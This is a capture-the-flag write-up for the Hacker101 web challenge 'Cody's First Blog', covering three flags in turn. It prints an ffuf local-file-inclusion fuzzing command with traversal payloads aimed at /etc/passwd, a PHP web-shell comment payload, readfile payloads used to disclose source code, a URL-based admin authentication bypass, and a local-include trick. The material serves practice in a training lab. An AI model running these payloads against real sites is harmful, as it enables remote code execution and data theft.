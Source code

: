 # Cody's First Blog
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 3/3

---

## 🧠 Thought Process
When I first accessed the website, I immediately started reconnaissance. I examined the content and checked the source code to understand the application structure. I noticed several potential attack vectors:

1. An admin login page referenced in the source code
2. A comment section for user input (potential injection point)
3. A mention of PHP `include()` function usage, suggesting possible Local File Inclusion (LFI)
4. The blog post mentioning that "PHP doesn't need a template language because it *is* a template language"

Multiple attack paths were available, so I decided to explore them systematically.

---

## 🔍 Step 1: Local File Inclusion (LFI) Discovery
I started by fuzzing for LFI vulnerabilities using `ffuf` with a wordlist from SecLists:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt -O lfi.txt
ffuf -u "https://c663cfaeb30f0d6e6437dbf942b65ab7.ctf.hacker101.com/?page=../../../../FUZZ%00" -w lfi.txt -fs 0
```

The fuzzing revealed multiple LFI paths, including:
- `../../apache/logs/access.log`
- `/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- Various other system files

However, when I tried to exploit these paths, I encountered inclusion errors, indicating the files weren't being properly included for execution.

---

## 🚩 Step 2: First Flag - Log Poisoning via Comment Section
Instead of continuing with the LFI approach, I pivoted to the comment section. I realized I could potentially poison log files by injecting PHP code through user input.

I submitted the following PHP payload in the comment form:
```php
<?php system($_GET['cmd']); ?>
```

**Surprisingly, this immediately revealed the first flag!** The comment section was directly executing PHP code without proper sanitization.

![First Flag](FirstFlag.png)

---

## 🔐 Step 3: Second Flag - Admin Panel Access
Next, I investigated the admin login page that was referenced in the HTML source:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

I tried accessing `?page=admin.auth.inc` but it seemed to require authentication. However, I had a hunch about the file structure. I tried removing the "auth" portion from the URL:

**Before:** `?page=admin.auth.inc`
![Admin Auth Required](AdminAuthInc.png)

**After:** `?page=admin.inc`
![Admin Panel Access](AdminAuth.png)

This bypassed the authentication entirely! The admin panel was accessible, and the second flag was displayed right there.

---

## 📝 Step 4: Third Flag - Source Code Disclosure
For the final flag, I needed to read the source code of the application. I went back to the comment section and tried various PHP payloads to read files:

```php
<?php echo readfile("index.php")?>
<?php echo ("index.php")?>
```

After submitting these comments, they appeared in the admin panel but weren't visible on the client side. I realized I needed to find a way to make the comments execute properly.

![Approved Comments](ApprovedComments.png)

Through research and experimentation, I discovered that by accessing:
```
/?page=http://localhost/index
```

This made the comments execute properly, and when I checked the source code of the resulting page, I could see the contents of `index.php` along with the third flag embedded in the source.

![Source Code Flag](SourceCodeFlag.png)

---

## 🏁 Captured Flags
- **Flag 1:** Found through direct PHP code execution in comments
- **Flag 2:** Discovered by bypassing admin authentication 
- **Flag 3:** Retrieved through source code disclosure via comment injection

---

## ✅ Summary
This challenge demonstrated multiple web vulnerabilities:

1. **Code Injection:** The comment system directly executed PHP code without sanitization
2. **Authentication Bypass:** Removing "auth" from the admin URL bypassed security
3. **Local File Inclusion:** Combined with code injection to read source files
4. **Improper Input Validation:** Multiple injection points throughout the application

The key lesson is that web applications using PHP's `include()` function with user input are extremely dangerous, especially when combined with insufficient input validation and authentication mechanisms.